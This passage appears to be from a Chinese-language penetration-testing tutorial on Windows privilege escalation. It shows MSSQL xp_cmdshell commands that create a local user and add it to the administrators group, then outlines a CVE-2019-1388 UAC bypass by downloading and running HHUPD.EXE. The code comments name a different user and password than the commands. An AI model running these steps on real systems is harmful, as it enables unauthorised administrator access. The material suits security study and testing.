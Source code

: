 4. 开启xp_cmdshell   MSSQL使用xp_cmdshell
5. 执行命令创建用户

    ```sql
    exec master.xp_cmdshell 'net user youze 123456 /add'       -- 添加用户ichungiu,密码123.com 
    exec master.xp_cmdshell ' net localgroup administrators youze /add'       -- 添加ichunqiu到管理员组
    ```

## 3.windows bypass UAC提权

##### 利用CVE-2019-1388实现bypass UAC

原理:

如果在运行一个可执行文件的时候我们<span data-type="text" style="color: var(--b3-font-color8);">触发了 UAC</span>,在点击「展示证书发行者的详细信息」这个链接之后 可以看到证书里的 Issued by 字段,这个字段对应的值就是 OID。证书会解析 OID 的值,可能显示为超链接，但是 Windows 忘记禁用了 OID 处的超链接，这就给了我们提权的可能

步骤

1. 查看是否打补丁  systeminfo

2. 下载EXP:CVE-2019-1388/HHUPD.EXE  这里是开启http服务上传​

    ![image](assets/image-20241028163224-0g0k9d0.png)​

3. 将exp下载到目标机中，并以管理员权限打开HHUPD.EXE,点击显示详细信息​

    ![image](assets/image-20241028163145-ffka5v6.png)​
